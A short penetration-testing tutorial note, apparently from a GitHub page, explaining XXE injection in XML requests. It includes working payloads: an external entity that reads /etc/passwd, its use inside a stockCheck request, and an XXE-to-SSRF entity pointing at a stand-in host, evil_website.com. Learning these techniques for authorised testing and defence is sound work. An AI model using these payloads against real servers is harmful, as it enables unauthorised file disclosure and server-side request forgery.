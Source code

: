 
Injecting malicious XXE Code into the request and then calling it **OR** upload it via file upload vulnerability

XML language is mostly used for storing and transferring data Ex:
```xml
<person>
    <name>John Doe</name>
    <age>30</age>
    <email>john.doe@example.com</email>
</person>
```

### Discovery :
Checking in requests and seeing a XML text storing some values

The Exploiting XML code may be like :
```xml
<!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> 
]>
```

**Note : here above the command is in variable xxe so if we find a another variable being called in request we can use xxe instead like :**

```xml
<stockCheck>
  <productId>&xxe;</productId>
  <storeId>3</storeId>
</stockCheck>
```

you can use several different PAYLOADS refer [cheatsheet](https://cheatsheet.haax.fr/web-pentest/files-and-files-inclusions/xxe/)

### XXE to SSRF :
An XXE request can also be made to connect to a remote server causing SSRF like :
```xml
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "https://evil_website.com">
]>
```




